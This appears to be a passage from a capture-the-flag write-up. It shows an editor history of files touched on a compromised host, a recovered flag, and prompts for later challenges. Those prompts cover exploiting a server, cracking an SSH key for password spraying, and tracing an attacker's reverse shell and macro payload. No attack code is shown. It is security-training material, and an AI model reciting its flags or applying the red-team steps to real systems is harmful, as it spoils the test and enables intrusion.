	+	80	20

> /etc/hosts
	*	1624607937	0
	"	2	0
	.	3	0
	+	3	0

> /etc/host
	*	1624607932	0
	"	1	0

> /tmp/stayalive.py
	*	1624546824	0
	"	2	12
	^	2	13
	.	2	13
	+	1	7
	+	8	20
	+	7	16
	+	8	14
	+	9	9
	+	10	12
	+	6	10
	+	9	23
	+	10	28
	+	2	13

> ~/.ssh/known_hosts
	*	1624545453	0
	"	1	0
	.	1	0
	+	1	0

> ~/.ash_history
	*	1624545357	0
	"	1	0

> /tmp/r.py
	*	1624531116	0
	"	1	0
	^	48	11
	.	49	0
	+	2	53
	+	1	36
	+	48	53
	+	48	71
	+	25	19
	+	25	29
	+	25	16
	+	48	95
	+	48	116
	+	48	137
	+	48	170
	+	3	34
	+	11	0
	+	8	25
	+	9	16
	+	25	3
	+	25	0
	+	14	46
	+	17	47
	+	19	12
	+	21	27
	+	22	53
	+	24	43
	+	17	37
	+	28	25
	+	26	7
	+	30	0
	+	54	9
	+	30	28
	+	31	23
	+	32	27
	+	33	57
	+	42	17
	+	41	16
	+	43	46
	+	46	12
	+	19	9
	+	54	24
	+	53	23
	+	54	9
	+	35	0
	+	34	18
	+	29	13
	+	35	34
	+	14	47
	+	42	17
	+	33	75
	+	8	26
	+	33	0
	+	38	0
	+	21	103
	+	8	14
	+	6	8
	+	9	14
	+	6	8
	+	11	14
	+	8	0
	+	12	14
	+	8	8
	+	9	8
	+	11	7
	+	12	8
	+	7	27
	+	21	61
	+	7	30
	+	21	27
	+	22	51
	+	48	20
	+	3	34
	+	3	45
	+	4	0
	+	10	18
	+	49	0

> /tmp/__pycache__/r.pyc
	*	1624447425	0
	"	1	0

> /tmp/b.py
	*	1624445270	0
	"	10	28
	^	26	39
	.	26	38
	+	9	58
	+	10	29
	+	11	14
	+	14	26
	+	15	23
	+	17	37
	+	7	25
	+	18	23
	+	19	0
	+	22	61
	+	23	42
	+	26	14
	+	22	10
	+	23	17
	+	26	40
	+	27	50
	+	29	25
	+	30	0
	+	30	61
	+	5	33
	+	17	51
	+	23	30
	+	26	38

> /tmp/p.c
	*	1624440352	0
	"	17	30
	^	17	31
	.	17	30
	+	1	17
	+	2	18
	+	3	22
	+	5	6
	+	1	0
	+	2	0
	+	3	0
	+	5	22
	+	6	23
	+	7	34
	+	8	34
	+	12	72
	+	13	34
	+	17	48
	+	23	24
	+	26	0
	+	4	20
	+	7	32
	+	8	9
	+	7	0
	+	8	0
	+	9	34
	+	11	0
	+	12	4
	+	9	14
	+	12	31
	+	13	28
	+	12	26
	+	15	0
	+	14	28
	+	16	11
	+	17	52
	+	18	0
	+	19	28
	+	20	16
	+	22	0
	+	23	32
	+	24	0
	+	20	5
	+	17	30

> /etc/ssh/sshd_config
	*	1624374598	0
	"	36	0
	^	36	0
	.	32	0
	+	32	0
	+	36	0
	+	32	0
	+	36	28
	+	32	36
	+	34	12
	+	32	1
	+	34	1
	+	37	0
	+	32	0

> /var/lib/ftp/note.txt
	*	1624355408	0
	"	5	22
	^	5	23
	.	5	21
	+	5	21

> /etc/vsftpd/vsftpd.conf
	*	1624353360	0
	"	117	0

> /etc/ssh/ssh_config
	*	1624351938	0
	"	46	0
	.	47	0
	+	46	46
	+	47	0

> /etc/hostname
	*	1624349157	0
	"	1	8
	^	1	9
	.	1	8
	+	1	8

> ~/flag.txt
	*	1624280143	0
	"	1	24
	^	1	25
	.	1	12
	+	1	12
```

If we look in the registers we can see that our flag is saved here.

Done! We have our flag "`flag{b4ckd00rs_4r3_us3full_f0r_p3rs1st3nc3}`"

## Know your enemy

**Challenge**

Now we know where the attack came from, and a quick scan found a web server on the machine. Let’s see if we can get more intel on our attacker.

URL: http://challenges.defsoc.tk:8895

Flag format: flag{string}

## Blue team becomes Red Team

**Challenge**

We now need to exploit this server in order to find useful information from our attacker.

Let’s use our Red team skills and get foothold on the machine.

Flag format: flag{string}

[hyp3r10n.ova](hyp3r10n.ova)

## Getting the crown jewels

**Challenge**

After getting in the server, we found a private SSH key inside.

If we can crack this password, maybe we can use password spraying in the attacker assets.

Flag format: flag{string}

## Locating our Attacker

**Challenge**

We’ve discovered some projects and a zip file inside the server. Let’s see if we can figure some information of our attacker from those, maybe we can track down our attacker and report it to the authorities.

Flag format: flag{'BSSID'_'email'}

## Crime doesnt' pay

**Challenge**

After our report, the authorities tracked down the attacker and arrested him. Good job! However, there is some information needed for our final report. Can you fill these out so that we can close this incident?

What was the first service to be accessed in Mission challenge 1? (flag1 = 'service name')

What is the IP address of the payload on the Excel macro vba, in Mission challenge 2? (flag2 = 'IP Address')

What file is used to enable the default login method in Mission challenge 3? (flag3 = 'name of the file')

What is the malicious domain used in the persistant reverse shell, in Mission challenge 4? (flag4 = 'subdomain')

What is the video file name running in the Hyperion website, on Mission challenge 5? (flag5 = 'video file name')

What is the name of the oldest site backup in the backup folder, in Mission challenge 6? (flag6 = 'backup file name')

What is the name of the attacker, found on Mission challenge 8? (flag7 = 'FirstName'_'LastName')

Flag format: flag{flag1_flag2_flag3_flag4_flag5_flag6_flag7}